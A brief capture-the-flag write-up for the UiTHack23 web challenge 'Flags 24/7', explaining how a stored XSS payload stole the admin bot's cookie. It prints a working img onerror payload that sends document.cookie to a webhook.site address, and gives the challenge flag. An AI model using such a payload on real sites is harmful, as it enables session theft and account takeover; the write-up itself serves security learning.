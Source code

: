 ># Web - Flags 24/7
> > Web - 400pts
>
>Bill gates approves this design

# Writeup

Initialize some type of server to catch requests. Due to university network restrictions we weere not able to send request between own subdomains, and had to use a public service.

[https://webhook.site/](https://webhook.site/)

Add xss script to the form data
```<img src=x onerror="this.src='https://webhook.site/3dfcb0ae-77ef-40f3-b844-154f74b62185/?'+document.cookie; this.removeAttribute('onerror');">```

Cronjob/admin is set to load the admin page every minute. The script is forced to do an `onError` as the src is faulty.  It triggers the script and will send a request with the cookie as parameter back to the address/server initialized.

`UiTHack23{xxspl0its_4r3_phun}`

